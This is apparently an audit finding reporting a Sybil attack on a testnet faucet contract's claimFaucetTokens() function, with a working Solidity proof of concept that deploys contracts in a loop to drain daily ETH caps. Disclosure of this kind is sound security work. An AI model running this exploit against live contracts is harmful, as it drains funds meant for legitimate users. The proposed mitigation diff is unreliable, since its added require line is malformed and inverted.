 # Sybil DDoS Attack `claimFaucetTokens()`

## Summary

The `claimFaucetTokens()` function is vulnerable to Sybil DDoS attacks where attackers can deploy multiple contracts to overwhelm daily limits and profitably drain the faucet's ETH reserves, denying service to legitimate claimers.

## Description

### Normal Behavior

- Daily claim limit restricts number of claims per day via `dailyClaimCount`
- Daily ETH cap limits total ETH distributed per day via `dailySepEthCap`
- First-time claimers receive 0.005 ETH

### Issue

The contract is vulnerable to a **Sybil DDoS attack** where attackers deploy multiple contracts to overwhelm the faucet system:

Line: 179 - 181, 194

```solidity
function claimFaucetTokens() public {
    // ...
    if (dailyClaimCount >= dailyClaimLimit) {
        revert RaiseBoxFaucet_DailyClaimLimitReached();
    }
    //...
    if (!hasClaimedEth[faucetClaimer] && !sepEthDripsPaused) {
        // ...
        if (
            dailyDrips + sepEthAmountToDrip <= dailySepEthCap &&
            address(this).balance >= sepEthAmountToDrip
        ) {
            hasClaimedEth[faucetClaimer] = true;
            dailyDrips += sepEthAmountToDrip;

            (bool success, ) = faucetClaimer.call{value: sepEthAmountToDrip}("");
            // ...
        }
    }
    //...
    dailyClaimCount++;
}
```

The vulnerability exists because:

- The faucet can only verify addresses, not human identities
- Deployment cost is less than claim reward

## Risk

### Impact

**High**

- Concentration of ETH resources to single attacker instead of diverse user base
- Legitimate users cannot access faucet ETH when daily caps are exhausted
- Faucet loses ETH and token reserves faster than intended
- Attackers can use private transactions or submarine transactions, making it nearly impossible for the system to track and respond to attacks

### Likelihood

**High**

- Requires only basic contract deployment
- Attackers always earn significant profit
- The attack can be executed as soon as daily limits reset

## Proof of Concept

### Textual PoC

1. Attacker deploys multiple simple contracts to create fake user identities
2. Each contract calls `claimFaucetTokens()` as a first-time claimer and transfers all ETH and tokens to the attacker's address
3. The attack repeats daily via script → system becomes unavailable most of the time

### Coded PoC

```solidity
contract AttackerFactory {
    constructor(RaiseBoxFaucet faucet_) {
        faucet_.claimFaucetTokens();
        while (true) {
            if (
                address(faucet_).balance <= faucet_.sepEthAmountToDrip() ||
                faucet_.dailyClaimCount() >= faucet_.dailyClaimLimit()
            ) {
                break;
            }
            SybilAttacker newAttacker = new SybilAttacker();
            newAttacker.claim(faucet_);
        }
    }
}

contract SybilAttacker {
    function claim(RaiseBoxFaucet faucet_) external {
        faucet_.claimFaucetTokens();
    }

    receive() external payable {}
}

function testSybilDDoSAttack() public {
    vm.startPrank(user1);
    new AttackerFactory(raiseBoxFaucet);
    vm.stopPrank();

    vm.expectRevert();
    vm.startPrank(user2);
    raiseBoxFaucet.claimFaucetTokens();
    vm.stopPrank();
}
```

**SybilDDoSAttack.t.sol**: <https://github.com/Luu-Duc-Toan/2025-10-raisebox-faucet/blob/main/test/SybilDDoSAttack.t.sol>

## Recommended Mitigation

Combine with off-chain DDoS mitigation services (e.g., Cloudflare, AWS Shield) to verify claimers as human before on-chain execution:

```diff
function claimFaucetTokens() public {
+   require(hasClaimedEth[faucetClaimer], "Unverified claimer")
    //...
-    if (!hasClaimedEth[faucetClaimer] && !sepEthDripsPaused) {
-        uint256 currentDay = block.timestamp / 24 hours;
-
-        if (currentDay > lastDripDay) {
-            lastDripDay = currentDay;
-            dailyDrips = 0;
-            // dailyClaimCount = 0;
-        }
-
-        if (
-            dailyDrips + sepEthAmountToDrip <= dailySepEthCap &&
-            address(this).balance >= sepEthAmountToDrip
-        ) {
-            hasClaimedEth[faucetClaimer] = true;
-            dailyDrips += sepEthAmountToDrip;
-
-            (bool success, ) = faucetClaimer.call{
-                value: sepEthAmountToDrip
-            }("");
-
-            if (success) {
-                emit SepEthDripped(faucetClaimer, sepEthAmountToDrip);
-            } else {
-                revert RaiseBoxFaucet_EthTransferFailed();
-            }
-        } else {
-            emit SepEthDripSkipped(
-                faucetClaimer,
-                address(this).balance < sepEthAmountToDrip
-                    ? "Faucet out of ETH"
-                    : "Daily ETH cap reached"
-            );
-        }
-    } else {
-        dailyDrips = 0;
-    }
    //...
}

+ function claimFaucetTokens(address faucetClaimer) public onlyOwner {
+    if (!hasClaimedEth[faucetClaimer] && !sepEthDripsPaused) {
+        uint256 currentDay = block.timestamp / 24 hours;
+
+        if (currentDay > lastDripDay) {
+            lastDripDay = currentDay;
+            dailyDrips = 0;
+            // dailyClaimCount = 0;
+        }
+
+        if (
+            dailyDrips + sepEthAmountToDrip <= dailySepEthCap &&
+            address(this).balance >= sepEthAmountToDrip
+        ) {
+            hasClaimedEth[faucetClaimer] = true;
+            dailyDrips += sepEthAmountToDrip;
+
+            (bool success, ) = faucetClaimer.call{
+                value: sepEthAmountToDrip
+            }("");
+
+            if (success) {
+                emit SepEthDripped(faucetClaimer, sepEthAmountToDrip);
+            } else {
+                revert RaiseBoxFaucet_EthTransferFailed();
+            }
+        } else {
+            emit SepEthDripSkipped(
+                faucetClaimer,
+                address(this).balance < sepEthAmountToDrip
+                    ? "Faucet out of ETH"
+                    : "Daily ETH cap reached"
+            );
+        }
+    } else {
+        dailyDrips = 0;
+    }
+}
```
